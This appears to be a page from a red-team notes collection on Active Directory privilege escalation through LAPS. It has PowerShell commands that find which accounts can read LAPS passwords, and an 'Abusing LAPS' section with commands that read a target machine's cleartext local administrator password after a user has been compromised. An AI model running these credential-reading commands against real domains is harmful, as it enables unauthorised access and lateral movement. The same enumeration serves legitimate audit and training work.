

# Domain Privilege Escalation - LAPS

- [Domain Privilege Escalation - LAPS](#domain-privilege-escalation---laps)
  - [LAPS](#laps)
  - [LAPS Enumerations](#laps-enumerations)
  - [Abusing LAPS](#abusing-laps)

---

## LAPS

**LAPS (Local Administrator Password Soltuion)** provides centralized storage of local users passwords in AD with periodic randomizing.

> *... it mitigates the risk of lateral escalation that results when customers have the same administrative local account and password combination on many computers.*

The password is stored in Cleartext, but the transmission is encrypted (Kerberos). 

LAPS is configurable using **GPO** and the access control for reading cleartext password is using **ACL** - **only Domain Admins and explicitly allowed users** can read the cleartext passwords.

  


<br/>

## LAPS Enumerations

**Discovering the use of LAPS**

To identify a computer using LAPS, a library can be found:

- `C:\Program Files\LAPS\CSE\AdmPwd.dll`

<br/>

**Find users who can read the passwords in OUs**

- PowerView

```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ?{ ($_.ObjectAceType -Like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty') } | %{ $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_ }
```

Note:
https://www.harmj0y.net/blog/powershell/running-laps-with-powerview/

<br/>

**Enumerate OUs where LAPS is in use along with users who can read the passwords in cleartext**

- AD Module + Get-LapsPermission.ps1

```
#Requires -Modules ActiveDirectory

# If you do not have AD module, you can refer to the following link.
# https://github.com/samratashok/ADModule

# From https://blogs.technet.microsoft.com/ashleymcglone/2013/03/25/active-directory-ou-permissions-report-free-powershell-script-download/
$schemaIDGUID = @{}
### NEED TO RECONCILE THE CONFLICTS ###
$ErrorActionPreference = 'SilentlyContinue'
Get-ADObject -SearchBase (Get-ADRootDSE).schemaNamingContext -LDAPFilter '(schemaIDGUID=*)' -Properties name, schemaIDGUID |
 ForEach-Object {$schemaIDGUID.add([System.GUID]$_.schemaIDGUID,$_.name)}
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).configurationNamingContext)" -LDAPFilter '(objectClass=controlAccessRight)' -Properties name, rightsGUID |
 ForEach-Object {$schemaIDGUID.add([System.GUID]$_.rightsGUID,$_.name)}
$ErrorActionPreference = 'Continue'

# Get a list of all OUs.  Add in the root containers for good measure (users, computers, etc.).
$OUs  = @(Get-ADDomain | Select-Object -ExpandProperty DistinguishedName)
$OUs += Get-ADOrganizationalUnit -Filter * | Select-Object -ExpandProperty DistinguishedName
$OUs += Get-ADObject -SearchBase (Get-ADDomain).DistinguishedName -SearchScope OneLevel -LDAPFilter '(objectClass=container)' | Select-Object -ExpandProperty DistinguishedName

# Loop through each of the OUs and retrieve their permissions.
# Add report columns to contain the OU path and string names of the ObjectTypes.
ForEach ($OU in $OUs) {
    $report += Get-Acl -Path "AD:\$OU" |
     Select-Object -ExpandProperty Access | 
     Select-Object @{name='organizationalUnit';expression={$OU}}, `
                   @{name='objectTypeName';expression={if ($_.objectType.ToString() -eq '00000000-0000-0000-0000-000000000000') {'All'} Else {$schemaIDGUID.Item($_.objectType)}}}, `
                   @{name='inheritedObjectTypeName';expression={$schemaIDGUID.Item($_.inheritedObjectType)}}, *
}

# Filter out ms-Mcs-AdmPwd

Write-Output "`nRead Rights"
$report | ?{($schemaIDGUID.Item($_.objectType) -eq "ms-Mcs-AdmPwd") -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | select organizationalUnit, IdentityReference

Write-Output "`nWrite Rights`n"
$report | ?{($schemaIDGUID.Item($_.objectType) -eq "ms-Mcs-AdmPwd") -and ($_.ActiveDirectoryRights -match 'WriteProperty')} | select organizationalUnit, IdentityReference
```

- Using LAPS module (can be copied across machines)

```
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1

Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```

<br/>

## Abusing LAPS

Once we compromise a user with LAPS Read permission, use the following commands to read cleartext password:

- PowerView

```
Get-ADObject -SamAccountName <target_machine>$ | Select -ExpandProperty ms-mcs-admpwd
```

- AD Module

```
Get-ADComputer -Identity <target_machine> -Properties ms-mcs-admpwd | Select -ExpandProperty ms-mcs-admpwd
```

- LAPS module

```
Get-AdmPwdPassword -ComputerName <target_machine>
```

Note:
Abuse LAPS for Persistence: 
https://rastamouse.me/blog/weaponizing-cve-2019-0841/
https://2017.hack.lu/archive/2017/HackLU_2017_Malicious_use_LAPS_Clementz_Goichot.pdf

<br/>

